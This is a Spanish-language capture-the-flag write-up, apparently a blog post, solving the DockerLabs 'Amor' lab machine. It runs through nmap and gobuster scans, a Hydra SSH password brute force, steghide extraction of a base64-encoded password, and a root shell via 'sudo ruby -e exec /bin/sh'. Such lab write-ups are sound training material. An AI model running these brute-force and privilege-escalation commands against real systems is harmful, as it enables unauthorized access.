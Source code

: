 ```yaml
---
title: Amor - DockerLabs
published: true
categories: DockerLabs
---
```


## Video de YouTube
<iframe width="560" height="315" src="https://www.youtube.com/embed/xQ9FkX6XY90?start=155" frameborder="0" allowfullscreen></iframe>


| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Romabri           | 

## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![imagen](https://github.com/romabri/WriteUps/assets/51706860/6d4d9449-aef9-49f3-bdf8-65f5e2048c18)


`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Busqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rapido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 22 `SSH` y el puerto 80 `HTTP`

## Enumeración Web
Si accedemos a la pagina web vemos lo siguiente 

![imagen](https://github.com/romabri/WriteUps/assets/51706860/49c9b3ff-dc63-4254-8147-4df0d2157cb9)


Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

Gobuster no ha encontrado nada

Pero en una de las entradas vemos algo interesante

![imagen](https://github.com/romabri/WriteUps/assets/51706860/c40e78ed-bf2b-4820-9eef-4d48dad3e3d8)

Tenemos dos usaurios vamos hacer fuerza bruta

## Ataque de fuerza bruta con Hydra

Como tenemos un possible usuario, vamos hacer un ataque de fuerza bruta con Hydra al protocolo ssh de la siguiente forma:

`hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
- `-l` - Para especificar el usaurio
- `-P` - Para especificar que diccionario de fuerza bruta usaremos
- `ssh://172.17.0.2` - Especificamos que queremos atentar contra el protocolo SSH de la IP victima

![imagen](https://github.com/romabri/WriteUps/assets/51706860/681424d0-b04e-4ce4-b748-17c4f05e053d)


Como vemos, existe el usuario `carlota` y la contraseña es `babygirl`.


## Intrusión

Ahora accedemos vía SSH 

`ssh carlota@172.17.0.2`
vemos que hay este directorio `/home/carlota/Desktop/fotos/vacaciones` y en dicho directorio hay una imagen.
Vamos a descargarla a la maquina atacante

`scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/romabri/Desktop/maquina/`

Este comando nos permite descargar archivos desde ssh

si abrimos la imagen nos encontramos esto

![imagen](https://github.com/romabri/WriteUps/assets/51706860/375e67ce-c967-44cf-91e7-e916137e99a4)

## Esteganografía

Vamos a usar un comando extraer datos ocultos de la imagen 

![imagen](https://github.com/romabri/WriteUps/assets/51706860/c504833a-5dfe-43ef-b3fb-10069a351936)

Si ejecutamos `steghiede extract -sf imagen.jpg` este comando nos extrae información oculta en la imagen.
El comando `steghide extract -sf` se utiliza para extraer información oculta de una imagen utilizando la herramienta Steghide. Aquí está la descripción de cada parte del comando:

"steghide": Es el nombre del programa que se utiliza para ocultar y extraer información de archivos, como imágenes.

"extract": Es el subcomando que le indica a steghide que quieres extraer información oculta de una imagen.

"-sf": Es una opción que se utiliza para especificar la imagen de la que quieres extraer la información oculta. La "s" indica "source" (fuente) y la "f" indica "file" (archivo). Después de esta opción, se espera que proporciones el nombre o la ruta de la imagen de la que quieres extraer la información oculta.

Nos pide que pongamos contraseña si no ponemos nada y damos a enter nos ha generado un archivo secret.txt.
Dentro del archivo secret.txt encontramos algo cifrado en base 64

![imagen](https://github.com/romabri/WriteUps/assets/51706860/076d3da4-9c95-4c69-91a8-1630748ee461)

Vamos a descifrarlo de la siguiente forma:
`echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 --decode`

Cuando hacemos esto nos aparece lo siguiente:

![imagen](https://github.com/romabri/WriteUps/assets/51706860/b8c9a67a-b5e4-441e-aad2-fc1a33a2e3f9)

Podría ser una contraseña pero para el usuario Juan no funciona vamos a seguir mirando dentro del usuario Carlota.

## Continuamos con la escalada 

Si escribimos el comando `env` vemos algo extraño

![imagen](https://github.com/romabri/WriteUps/assets/51706860/2fffa0f1-ea4f-40b2-b541-668cfa8b0c86)

El texto cita a un tal oscar vamos a probar la contraseña que hemos encontrado dentro de la imagen con este usaurio.


![imagen](https://github.com/romabri/WriteUps/assets/51706860/47fbd3b9-7174-407f-975e-17f167377710)

A funcionado! (Un poco rara la contraseña...)

Si vamos al escritorio de oscar vemos un achivo con un texto 

![imagen](https://github.com/romabri/WriteUps/assets/51706860/67b29352-d52d-4753-bae1-cb1e77f4260f)


## Escalada de privilegios


Si hacemos un `sudo -l` nos aparece lo siguiente

![imagen](https://github.com/romabri/WriteUps/assets/51706860/5b8bca9e-a9cd-42bd-af66-4c85b60d5f7c)

Ejecutamos el siguiente comando `sudo /usr/bin/ruby -e 'exec "/bin/sh"'`

Ya somos ROOT!

Que hay en el archivo del escriotrio de ROOT...











